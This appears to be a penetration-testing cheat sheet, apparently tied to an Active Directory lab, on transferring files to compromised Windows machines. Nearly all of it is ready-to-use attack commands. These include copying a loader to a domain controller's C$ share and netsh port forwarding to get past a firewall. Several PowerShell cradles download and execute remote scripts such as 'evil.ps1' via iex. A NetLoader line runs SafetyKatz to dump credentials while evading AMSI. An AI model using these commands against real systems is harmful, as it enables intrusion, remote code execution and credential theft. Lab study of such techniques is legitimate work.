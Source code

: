 # Transfer files

### SMB Shares

```batch
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y 
```

### HTTP Server

Port forward to avoid firewall using netsh on target machine

```batch
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=172.16.100.x
```

Serve the files using [hfs ](https://www.rejetto.com/hfs/?f=dl)or http simple server

```batch
python3 -m http.server -port 80
```

Download the file on target machine

```powershell
# Download and store
(New-Object Net.WebClient).DownloadFile('http://127.0.0.1:8080/<File>', '<Dest Path>')

# Download and execute
iex ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/<File>'));

# NetLoader to execute and bypass amsi
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

More options

{% code overflow="wrap" %}
```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```
{% endcode %}

PowerShell v3+

```powershell
iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)
iex (iwr 'http://192.168.230.1/evil.ps1')
```
